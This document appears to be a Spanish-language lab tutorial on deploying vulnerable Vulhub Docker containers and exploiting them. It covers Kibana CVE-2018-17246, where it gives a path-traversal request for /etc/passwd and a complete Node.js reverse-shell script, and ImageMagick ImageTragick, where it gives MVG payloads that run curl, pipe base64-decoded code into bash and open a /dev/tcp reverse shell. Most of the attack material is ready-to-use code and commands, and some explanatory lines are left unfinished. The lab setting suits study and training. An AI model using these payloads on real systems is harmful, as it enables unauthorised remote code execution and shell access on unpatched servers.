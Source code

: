 ## Despliegue de máquinas vulnerables con Docker-Compose

Tags: #Docker #Comandos #Linux 



A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:
-   **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)
Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:
-   **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

Desplegaremos una maquina Kibana con su vulnerabilidad 
* **Kibana** es una interfaz de usuario gratuita y abierta que permite visualizar los datos de ElasticSearch y navegar en el Elastic Stack
* **Elasticsearch** es 
* **Elastic Stack**  es

❯ **svn checkout \https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246** Para clonar una subcarpeta de Github y en donde dice **/tree/master** quitarlo de la url y colocar **/trunk** y el resto de la url
❯ **docker-compose up -d** Para poder desplegar el contenerdor una vez descargada
❯ **docker port cve-2018-17246_kibana_1** Miramos el puerto que esta usando para ese servicio en especifico

Web **localhost:5601** Para poder ver el servicio web de Kibana

❯ **curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../etc/passwd"**
* X -> Es el metodo que queremos tramitar GET
* s -> modo silence
❯ **docker-compose logs** Para mirar los logs en Docker pero debes de estar dentro del contenedor 
❯ **docker-compose exec kibana bash** Para ingresar al Kibana
	❯ **cd /tmp** Este dir tiene privilegios de lectura y escritura
	❯ **nano reverse.js**
		(function(){
		    var net = require("net"),
		        cp = require("child_process"),
		        sh = cp.spawn("/bin/sh", []);
		    var client = new net.Socket();
		    client.connect(443, "172.17.0.1", function(){
		        client.pipe(sh.stdin);
		        sh.stdout.pipe(client);
		        sh.stderr.pipe(client);
		    });
		    return /a/; // Prevents the Node.js application form crashing
		})();

Con este archivo loque hacemos es que vamos a crear una ReverShell por un puerto y nuestra IP (172.17.0.1) pero seria la del **docker0**, despues solo nos pondriamos en escucha por Netcat en el puerto 443
❯ **ifconfig docker0** Miramos la IP de la interface docker0

❯ **curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../tmp/reverse.js"**
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux


****

Desplegaremos otra maquina llamada **ImageMagick** con su vulnerabilidad 
-   **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

Este proyecto se encarga de procesar contenido multimedia 
❯ **svn checkout \https://github.com/vulhub/vulhub/trunk/imagemagick/imagetragick** Para clonar una subcarpeta de Github y en donde dice **/tree/master** quitarlo de la url y colocar **/trunk** y el resto de la url
❯ **docker-compose up -d** Para poder desplegar el contenerdor una vez descargada
❯ **docker port imagetragick_web_1** Miramos el puerto que esta usando para ese servicio en especifico y nos muestra el 8080

Web **localhost:8080** Para poder ver el servicio web de Imagetragick

Podemos usar BurpSuite con otro puerto para poder interceptar la comunicacion y asi en el campo de la extension del archivo a subir, modificarlo y ver que tipo de archivos acepta. Esto se haria con un ataque de fuuerza bruta en el Intruder y con una expresion regular en **Options > Grep-Match** podemos seleccionar **Add** y despues la expresion o el texto que queremos que nos haga match en la respuesta 

Podemos colocar este contenido en el archivo '.jpg' en Burpsuite y poder explotar la vulnerabilidad
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?|curl "172.72.0.1/testingRCE")'
pop graphic-context
```
❯ **python3 -m http.server 80** Nos montamos un servidor http 80


Ahora podemos hacer la Revershell 
❯ **nvim file.gif**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo tqergqerbash64revershell | base64 -d | bash`"||id " )'
pop graphic-context
```
Despues de echo colocaremos la revershell pero que fue codificada en base 64
❯ **echo -n "/bin/bash -i >& /dev/tcp/172.72.0.1/4646 0>&1" | base64** Nos regresara la Revershell codificada 
